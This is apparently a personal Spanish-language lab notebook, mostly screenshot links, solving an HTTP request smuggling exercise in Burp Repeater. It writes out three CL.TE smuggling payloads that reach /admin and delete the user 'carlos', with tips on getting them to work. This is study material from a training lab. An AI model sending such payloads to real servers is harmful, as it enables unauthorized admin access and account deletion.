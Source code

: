 
![[Pasted image 20230717184101.png]]

![[Pasted image 20230717184122.png]]

![[Pasted image 20230717184200.png]]

![[Pasted image 20230717184219.png]]

cambio el request y la version del protocolo:

![[Pasted image 20230717184320.png]]

limpiando  y probando el payload 1:

* payload 1:

Content-Length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

En el menu el repeater desactivar la opcion: Update content-length:

![[Pasted image 20230717184625.png]]

enviandolo por segunda vez:

![[Pasted image 20230717184717.png]]

probando el payload 2:

* payload 2:

	Content-Type: application/x-www-form-urlencoded
	Content-Length: 4
	Transfer-Encoding: chunked

	71
	POST /admin HTTP/1.1
	Host: localhost
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 15

	x=1

![[Pasted image 20230717184850.png]]

probando una segunda vez:

![[Pasted image 20230717184936.png]]

* payload 3:

	Content-Length: 4
	Transfer-Encoding: chunked

	87
	GET /admin/delete?username=carlos HTTP/1.1
	Host: localhost
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 15

	x=1
	0

![[Pasted image 20230717185106.png]]

probando una segunda vez:

![[Pasted image 20230717185157.png]]


Luego de esto vuelvo a agarrar un root request nuevo y esta vez solamente agrego la segunda parte de los payloads al final:

primer payload enviandolo 2 veces:

![[Pasted image 20230717185436.png]]


![[Pasted image 20230717185449.png]]

segundo payload enviandolo 2 veces:

![[Pasted image 20230717185554.png]]

limpiando el request y probando el tercer payload

![[Pasted image 20230717185938.png]]

aca no me fucionaba aunque a bounty espana si, lei la solucion oficial y el trip es agregar los caracteres \r\n al final, modificando esto y enviando el tercer payload una ultima vez:

![[Pasted image 20230717190828.png]]

pimero me dio un 200 y luego un 302:

![[Pasted image 20230717190851.png]]

![[Pasted image 20230717190905.png]]